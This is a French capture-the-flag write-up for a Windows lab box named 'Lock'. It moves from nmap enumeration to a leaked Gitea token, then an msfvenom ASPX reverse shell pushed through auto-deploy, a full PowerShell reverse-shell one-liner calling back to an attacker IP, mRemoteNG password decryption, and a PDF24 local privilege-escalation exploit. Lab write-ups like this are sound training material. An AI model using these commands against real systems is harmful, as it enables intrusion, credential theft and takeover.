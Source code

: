 ```yaml
---
title: Lock - Easy
description: WU Lock - Easy
categories: [Writeup]
tags: [writeup]
template: doc
---
```


<Image src={banner} alt="banner" format="avif" quality={"mid"}/>


# LOCK


| OS | Difficulty | Target |
|----|----|----|
| Windows | <span style="color:green">**EASY**</span> | 10.10.92.237 |



# 🔭 Enumeration

### PortScan

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```
Scan approfondit des ports trouvés:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=87dfb3e2af70e006; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=40IoXd4T_GFBgYejGbA9it2Tu-g6MTcyNjM0OTU4OTY2NjgxMjUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:09 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=690ad1cf074d552c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=IlVtCJ-F-vcFbXBL_eRGbH0Nb9Y6MTcyNjM0OTU5NTA2NDE1OTgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:15 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2024-09-13T21:19:21
|_Not valid after:  2025-03-15T21:19:21
|_ssl-date: 2024-09-14T21:35:12+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-09-14T21:34:32+00:00
```
| PORT | PROTOCOL |
|----|----|
| 80 | HTTP |
| 445 | SMB |
| 3000 | GITEA |
| 3389 | RDP |

# 👣 Foothold

Un dépôt `Gitea` sur le port 3000. Nous donne un nom d'user `ellen.freeman`. Il y a 2 commits et un script.
Le commit initial nous permet de récupérer le Token Gitea:

```py
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f' 
```

En jetant un coup d'oeil au script,  on peut voir qu'il énumère l'ensemble des dépôts présents sur Gitea pour un utilisateur donné.

En utilisant le script, nous découvrons un dépôt `/website`

```sh
python3 repos.py http://lock.vl:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Téléchargeons le git:

```sh
git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 2.58 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

En lisant le fichier `README.md` présent, il est indiqué que chaque modification, apportée au dépôt, est déployée automatiquement.

```sh
cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver# 
```

Création d'un reverse shell avec un fichier `.aspx` puis push vers le dépôt ou en utilisant [ce script](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.3.147 LPORT=4444 -f aspx -o web.aspx
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl
git add web.aspx
git commit -m "Add web file"
git push
```

Dans un autre terminal j'écoute sur le port 4444, puis je me rends sur le lien du fichier en espérant obtenir un reverse shell.

```sh
nc -lvnp 4444
```

Sur le lien de la page, je saisis la commande:

```cmd
/c powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.147',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
On obtient notre reverse shell, en fouillant dans les répertoires de `ellen.freeman` on trouve un fichier `config.xml`.
```powershell
PS C:\Users\ellen.freeman\Documents> cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

Le fichier `config.xml` est un fichier pour RemoteNG. J'utilise le script de ce [dépôt](https://github.com/gquere/mRemoteNG_password_decrypt) pour déchiffrer les informations présentes.

```sh
python3 rng-decrypt.py config.xml   
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

On obtient donc l'user `Gale.Dekarios` et son mot de passe.
Connectons-nous en RDP.

Le flag user est présent sur le Bureau.


# 🎯 Privilege Escalation

A partir de la session de Gale.Dekarios, nous pouvons voir que le logiciel PDF24 est présent. En regardant les détails du programme, la version est la 11.15.1 dont un exploit permet de PrivEsc.

Le lien ci-contre nous indique la [marche à suivre](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html).

- Téléchargeons SetOpLock.exe sur la machine cible ([Github](https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0))
- Saisissons la commande suivante dans un prompt cmd: `.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`
- Un dossier `_Install`est présent à la racine de `C:` et possède l'installer msi requis pour monter en privilèges.
- Dans un autre terminal, lançons l'installation avec la commande suivante: `msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`
- A la fin de l'installation un terminal s'ouvre, il suffit de cliquer droit sur la barre / Propriété et cliquer sur le lien `Legacy console mode link`
- Sélectionner Firefox, puis `CTRL+O`pour ouvrir `cmd.exe`à partir de Firefox. 
- Contrôler qui nous sommes avec la commande `whoami /all` 

Vous êtes administrateur, vous pouvez obtenir le flag `root.txt`dans le Desktop d'Administrator.
